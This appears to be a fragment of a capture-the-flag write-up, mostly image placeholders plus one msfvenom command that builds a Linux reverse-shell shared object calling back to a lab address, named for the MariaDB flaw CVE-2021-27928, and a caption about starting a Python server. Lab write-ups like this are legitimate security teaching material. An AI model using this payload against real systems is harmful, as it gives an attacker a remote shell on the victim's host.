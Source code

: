<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.166 LPORT=9898 -f elf-so -o CVE-2021-27928.so
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>and then open up a python server</p></figcaption></figure>
